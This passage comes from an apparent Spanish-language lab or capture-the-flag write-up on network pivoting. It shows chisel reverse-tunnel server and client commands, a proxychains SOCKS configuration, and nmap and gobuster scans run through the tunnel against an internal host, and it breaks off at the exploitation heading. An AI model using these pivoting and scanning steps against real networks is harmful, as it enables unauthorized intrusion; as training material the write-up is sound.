 <sub>[Captura del resultado del script]</sub>

Identificamos el host `20.20.20.3`, así que procederemos a realizar una enumeración manual usando **chisel** para crear un túnel inverso.

---

## Fase 3: Configuración de *chisel* para acceso al host 20.20.20.3

1. **Configuración en máquina atacante**:
   ```bash
   ./chisel server --reverse -p 1234
   ```
   <sub>[Captura de pantalla]</sub>

2. **Configuración en máquina víctima (`10.10.10.2/20.20.20.2`)**:
   ```bash
   ./chisel client 10.10.10.1:1234 R:socks
   ```

3. **Edición de `proxychains4.conf`**:
   ```text
   dynamic_chain
   # strict_chain (comentada)
   socks5 127.0.0.1 1080
   ```

---

## Fase 4: Enumeración del sistema en 20.20.20.3

1. **Escaneo de puertos**:
   ```bash
   proxychains nmap -sCV --top-ports 100 -Pn -sT 20.20.20.3 -oN escaneo.txt 2>&1 | grep -vE 'timeout|OK'
   ```
   <sub>[Captura del escaneo]</sub>

   - **Puerto 22**: SSH.
   - **Puerto 80**: HTTP.

2. **Acceso a sitio web en `20.20.20.3`**:
   - Usamos **FoxyProxy** en el navegador configurado para usar `socks5 127.0.0.1 1080`.

3. **Fuzzing de directorios**:
   ```bash
   gobuster dir -w directory-list-2.3-medium.txt -u http://20.20.20.3 -x php -t 150 --proxy socks5://127.0.0.1:1080
   ```
   <sub>[Captura del resultado]</sub>

   Encontramos el archivo `secret.php`.

---

## Fase 5: Explotación en 20.20.20.3
